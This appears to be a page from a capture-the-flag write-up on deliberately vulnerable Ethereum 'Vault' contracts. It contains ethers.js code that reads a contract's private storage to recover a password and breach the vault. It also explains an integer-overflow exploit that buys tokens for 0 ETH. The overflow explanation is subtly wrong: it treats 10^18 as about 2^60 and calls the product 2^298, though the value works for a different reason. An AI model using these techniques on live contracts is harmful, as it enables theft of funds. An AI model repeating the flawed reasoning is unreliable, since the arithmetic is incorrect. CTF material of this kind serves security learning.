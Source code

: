 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// Read the storage value at slot 4
slotValue = await ethers.provider.getStorage(vaultAddress, 4);

// Decode the password from the storage value
const tagHex = slotValue.slice(-2);
const tag = parseInt(tagHex, 16);
const length = tag / 2;
const actualDataHex = "0x" + slotValue.slice(2, 2 + length * 2);
const actualPassword = ethers.toUtf8String(actualDataHex);

// Hash the password and address
const hashedPassword = ethers.solidityPackedKeccak256(
    ["string", "address"], 
    [actualPassword, playerAddress]
);

// Call breachVault with the derived hashed password
const tx = await vault.breachVault(hashedPassword);
await tx.wait();
\end{verbatim}
\end{minipage}

\subsection*{Vault08: Tokens for Free}

To breach \texttt{Vault08}, you need to exploit an integer overflow vulnerability in the \texttt{buyTokens} function. Since the contract uses Solidity 0.7.6, which lacks built-in protection against overflow, you can find a value for \texttt{numTokens} that causes \texttt{numTokens * TOKEN\_PRICE} to overflow to exactly 0. This allows you to purchase tokens without paying any ETH.

To achieve this, use a value for \texttt{numTokens} that, when multiplied by 1 ether ($10^{18}$), overflows and wraps around to exactly 0 in a uint256. A perfect value for this is $2^{238}$, since $2^{238} \times 10^{18} \approx 2^{238} \times 2^{60} = 2^{298}$, which exceeds the maximum uint256 value ($2^{256} - 1$) and wraps around to 0. The exploit works because when the multiplication overflows, the result becomes $2^{298} \bmod 2^{256} = 0$. This allows you to pass the payment check with 0 ETH.
\end{document}
